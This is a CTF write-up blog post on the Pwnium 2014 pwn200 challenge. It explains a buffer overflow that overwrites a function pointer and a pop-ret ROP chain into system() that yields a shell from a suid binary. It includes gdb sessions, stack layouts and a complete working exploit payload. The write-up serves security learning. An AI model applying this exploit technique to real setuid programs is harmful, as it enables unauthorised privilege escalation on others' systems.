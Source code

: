 title: Be a Robot
date: 2014-07-30
author: makefu
tags: crackme, pwnium2014, post-mortem

 * **Author**: makefu

## Intro
First of all, this is a post-mortem solution for pwn200 as we failed to finish
it within ctf time both because the challenge was offline alot of the time and
that we were not experienced enough to find a solution.

The challenge was to elevate privileges on a remote server to a user which was
able to read the file $HOME/flag . The folder also contained a file named
pwn200 which had suid bit set for the user -> pop a shell by finding a vuln in
this program.

## Track the Vuln
Running the program looks like this:

    :::bash
    $ ./pwn200 
    Name: Bob
    Age: 10
    Goodbye little boy

    $ ./pwn200
    Name: Khan
    Age: -1
    [1]    6141 segmentation fault  ./pwn200

When supplying a negative age `eax` will not be updated in the function atExit
and the pointer will stay uninitialized. 

![failed check in atExit](data/be_a_robot/atExit.png)

The fgets which reads the name contains a buffer overflow which allows us to override exactly this pointer.

![bof in read\_user](data/be_a_robot/read_user.png)

Trying it in gdb looks like this:

    :::gdb
    (gdb) br *0x8048670 # call eax
    Breakpoint 1 at 0x8048670
    (gdb) r
    Starting program: /home/makefu/pwnium/200/pwn200 
    warning: Could not load shared library symbols for linux-gate.so.1.
    Do you need "set solib-search-path" or "set sysroot"?
    Name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Breakpoint 1, 0x08048670 in atExit ()
    (gdb) disass 
    Dump of assembler code for function atExit:
      0x08048660 <+36>:  cmp    DWORD PTR [ebp+0x8],0x0
      0x08048664 <+40>:  jle    0x804866d <atExit+49>
      0x08048666 <+42>:  mov    DWORD PTR [ebp-0xc],0x804860c
      0x0804866d <+49>:  mov    eax,DWORD PTR [ebp-0xc]
    => 0x08048670 <+52>:  call   eax
      0x08048672 <+54>:  leave  
      0x08048673 <+55>:  ret    
    End of assembler dump.
    (gdb) i r eax
    eax            0x41414141 1094795585

## Prepare the stack for ROP
We cannot directly execute our name string as both ASLR and NX-Stack are enabled but there is a system call in a unused function called `test`:

    :::gdb
    (gdb) disassemble test
    Dump of assembler code for function test:
      0x08048694 <+0>: push   ebp
      0x08048695 <+1>: mov    ebp,esp
      0x08048697 <+3>: sub    esp,0x8
      0x0804869a <+6>: sub    esp,0xc
      0x0804869d <+9>: push   0x80487f3
      0x080486a2 <+14>:  call   0x8048430 <system@plt>
      0x080486a7 <+19>:  add    esp,0x10
      0x080486aa <+22>:  leave  
      0x080486ab <+23>:  ret    
    End of assembler dump.

Too bad we cannot directly prepare the stack with our provided text to supply a string which then can be executed. 
To be clear: we currently only control eip, not the whole stack. ROP to the rescue!

This is how our stack must look like for a successful exploit:

| Address  | Description |
|---------|------------:|
| call system          | <- esp                      |
| [command-string]     | <- esp + 4 (first argument) |

The ROP gadget i used is a simple 'pop-ret' which can be found with for example [msfrop]( http://shell-storm.org/project/ROPgadget/ ) or [ROPgadget](http://shell-storm.org/project/ROPgadget/). POP-RET is at `0x080487a6`.

By that we can prepare our input as an argument for the system call. As we have no shell command yet we will used `0x80487f3` - 'echo pwned' for testing.


### Follow the Execution Flow
These tables show the stack after each ROP step.

**Before call ROP**

| Address  | Description |
|:---------|:-----------:|
| [A\*36]     | BOF Filler    |
| [AAAA]      | BOF Filler    |
| 0x080486a2 `esp` | call system   | 
| 0x080487f3  | "echo hacked" |
| [BBBB]      | Filler        |
| 0x080487a6 `eip` | pop ebx;ret   | 

**After ret from pop-ret ROP Gadget**

| Address  | Description |
|:---------|:-----------:|
| [A\*32]     | BOF Filler        |
| 0x08048672  | ret addr call-eax |
| 0x080486a2  | call system       |
| 0x080487f3 `esp`  | "echo hacked"     |
| [BBBB]      | Filler            |
| 0x080487a6  | pop ebx;ret       |

**After call system**

| Address  | Description |
|:---------|:-----------:|
| [A\*32]     | BOF Filler           |
| 0x08048672  | ret addr call-eax    |
| 0x080486a2 `esp` | ret addr call-system |
| 0x080487f3 `parm1` | "echo hacked"        | 
| [BBBB]      | Filler               |
| 0x080487a6  | pop ebx;ret          |

**Quick Sidenote:**

 1. `call address` pushes the return address($eip+sizeof(call)) onto the stack and executes the function at  **address**.
 2. *ret* pops the return address from the stack and executes the address

The payload generation and testing looks like this:

    :::bash
    python2 -c 'print("A"*36+"\xa2\x86\x04\x08"+"\x01\x8c\x04\x08"+"BBBB"+ "\xa6\x87\x04\x08"+"CCCC"+"DDDD"+ "EEE\n" +"-1")'  > in
    gdb ./pwn200
    (gdb) r < in
    Starting program: ./pwn200 < in
    hacked
    Name: Age: [Inferior 1 (process 11968) exited normally]



### Find the exec string

We need a string address for system argument which allows us to run whatever commands we want. Due to the fact aslr is enabled hitting our 36 bytes short buffer is kind of unlikely. Using environment variables with `" "\*9001 +"/bin/sh"` may give us a better chance to guess the address but is still pretty crude.

`"sh"` which is short and gives us full access may reside in the executable after being loaded in the memory so i gave it a shot with gdb:
    
    :::gdb 
    (gdb) break main
    Breakpoint 1 at 0x8048701A
    (gdb) start
    (gdb) info proc mappings
    process 11324
    Mapped address spaces:

      Start Addr   End Addr       Size     Offset objfile
      0x8048000  0x8049000     0x1000        0x0 /home/makefu/pwnium/200/pwn200
      0x8049000  0x804a000     0x1000        0x0 /home/makefu/pwnium/200/pwn200
      0xf7564000 0xf7565000     0x1000        0x0 
      0xf7565000 0xf7720000   0x1bb000        0x0 /usr/lib32/libc-2.19.so
      0xf7720000 0xf7723000     0x3000   0x1ba000 /usr/lib32/libc-2.19.so
      0xf7723000 0xf7725000     0x2000   0x1bd000 /usr/lib32/libc-2.19.so
      0xf7725000 0xf7727000     0x2000        0x0 
      0xf7757000 0xf7759000     0x2000        0x0 
      0xf7759000 0xf775a000     0x1000        0x0 [vdso]
      0xf775a000 0xf777b000    0x21000        0x0 /usr/lib32/ld-2.19.so
      0xf777b000 0xf777c000     0x1000        0x0 
      0xf777c000 0xf777d000     0x1000    0x21000 /usr/lib32/ld-2.19.so
      0xf777d000 0xf777e000     0x1000    0x22000 /usr/lib32/ld-2.19.so
      0xffeba000 0xffedb000    0x21000        0x0 [stack]
    (gdb) find 0x08048000, +5000, "sh"
    0x8048c01
    1 pattern found.

Instead of 0x80487f3 we are now using 0x8048c01.

## Putting it all together

    :::bash
    # first pipe the shellcode, then use stdin
    (python2 -c 'print("A"*36+"\xa2\x86\x04\x08"+"\x01\x8c\x04\x08"+"BBBB"+ "\xa6\x87\x04\x08"+"CCCC"+"DDDD"+ "EEE\n" +"-1")'; cat) | ./pwn200
    ls /
    bin   dev  krebs  media  root  sbin  sys  usr  var
    boot  etc  home   lib    mnt   proc  run  tmp


## Cheers
To [Team Action Kaktus](https://ctftime.org/team/6997) on ctftime for making a writeup with a nonfunct solution, this made me try hard enough to finish it by myself.


